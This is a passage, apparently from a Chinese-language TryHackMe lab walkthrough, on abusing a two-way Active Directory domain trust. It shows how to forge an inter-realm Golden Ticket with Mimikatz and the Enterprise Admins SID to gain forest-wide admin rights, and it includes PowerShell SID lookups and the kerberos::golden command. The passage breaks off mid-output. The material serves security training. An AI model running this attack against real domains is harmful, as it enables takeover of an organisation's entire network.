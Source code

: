 抓取 KRBTGT 密码哈希后，我们现在可以伪造一个 Golden Ticket 来访问子域中的任何资源。这也将在 “持续 AD” 房间中进行更详细的讨论。然而，我们可以通过伪造一个 Inter-Realm TGT 来进一步操作。Inter-Realm TGT 用于提供对其他域中资源的访问权限。在我们的情况下，我们希望利用子域和父域之间的双向信任关系，以获取对父域的完全访问权限。

在构造 Golden Ticket 时，我们将包含来自其他域的额外账户 SID，以执行此漏洞利用。Mimikatz 可以帮助我们，在 Kerberos TGT 的 KERB_VALIDATION_INFO 结构的 ExtraSids 部分中设置 ExtraSids。ExtraSids 部分被描述为 “指向包含与主体所属账户域之外的域中组的 SID 列表的 KERB_SID_AND_ATTRIBUTES 结构列表的指针”。

关键在于，我们将通过在我们伪造的子域域控制器的票证中添加 Enterprise Admins（EA）组的 SID 作为额外 SID 来利用父域对我们子域的信任。EA 组属于父域，加入这个组基本上授予了对整个森林的管理权限！该组的默认 SID 是 `S-1-5-21-<RootDomain>-519` 。

在进行利用之前，我们首先需要恢复两个 SID：

- 子域控制器（THMDC）的 SID，我们将在我们伪造的 TGT 中冒充
- 父域中 Enterprise Admins 的 SID，我们将作为伪造的 TGT 的额外 SID 添加

要恢复这些 SID，我们可以使用 AD-RSAT Powershell 命令。我们可以使用以下命令恢复子域控制器的 SID：

```shell title="Command Prompt"
PS C:\> Get-ADComputer -Identity "THMDC"

DistinguishedName : CN=THMDC,OU=Domain Controllers,DC=za,DC=tryhackme,DC=loc
DNSHostName       : THMDC.za.tryhackme.loc
Enabled           : True
Name              : THMDC
ObjectClass       : computer
ObjectGUID        : bd651750-782b-4b09-93b4-b5987ec7311b
SamAccountName    : THMDC$
SID               : S-1-5-21-3885271727-2693558621-2658995185-1001
UserPrincipalName :
```

我们可以使用以下命令查询父域控制器来恢复 Enterprise Admins 组的 SID：

```shell title="Command Prompt"
PS C:\> Get-ADGroup -Identity "Enterprise Admins" -Server thmrootdc.tryhackme.loc

DistinguishedName : CN=Enterprise Admins,CN=Users,DC=tryhackme,DC=loc
GroupCategory     : Security
GroupScope        : Universal
Name              : Enterprise Admins
ObjectClass       : group
ObjectGUID        : a23ae384-16e8-44d5-9b36-8173c4e0e5de
SamAccountName    : Enterprise Admins
SID               : S-1-5-21-3330634377-removed-519
```

### 利用域信任

我们最终拥有了创建伪造 TGT 所需的所有信息。我们将使用 Mimikatz 生成这个 Golden Ticket。命令会类似于这样：

```shell title="Command Prompt"
C:\Tools>mimikatz_trunk\x64\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` (benjamin@gentilkiwi.com)
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             (vincent.letoux@gmail.com)
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # privilege::debug
Privilege '20' OK

mimikatz # kerberos::golden /user:Administrator /domain:za.tryhackme.loc /sid:S-1-5-21-3885271727-2693558621-2658995185-1001 /service:krbtgt /rc4:<Password hash of krbtgt user> /sids:<SID of Enterprise Admins group> /ptt
User      : Administrator
Domain    : za.tryhackme.loc (ZA)
